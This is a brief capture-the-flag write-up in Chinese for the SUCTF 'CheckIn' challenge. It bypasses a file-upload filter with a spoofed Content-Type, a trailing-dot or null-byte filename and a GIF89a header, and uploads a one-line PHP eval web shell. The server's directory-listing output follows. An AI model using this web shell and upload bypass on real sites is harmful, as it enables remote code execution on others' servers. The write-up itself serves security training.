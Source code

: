 # suctf

## CheckIn

1. 修改`Content-Type: image/jpeg`, 返回`illegal suffix!`
1. `filename="poc.php."`
1. 文件内容修改为`<script language="php">eval($_POST['cmd']);</script>`
1. 文件头加上`GIF89a`, 返回

    ```
    Your dir uploads/39221d7331e646ec5a9fdc85ba0b89ca <br>Your files : <br>array(4) {
        [0]=>
        string(1) "."
        [1]=>
        string(2) ".."
        [2]=>
        string(9) "index.php"
        [3]=>
        string(8) "poc.php."
    }
    Your dir uploads/39221d7331e646ec5a9fdc85ba0b89ca <br>Your files : <br>array(4) {
        [0]=>
        string(1) "."
        [1]=>
        string(2) ".."
        [2]=>
        string(9) "index.php"
        [3]=>
        string(14) "poc.php%00.jpg"
    }
    ```
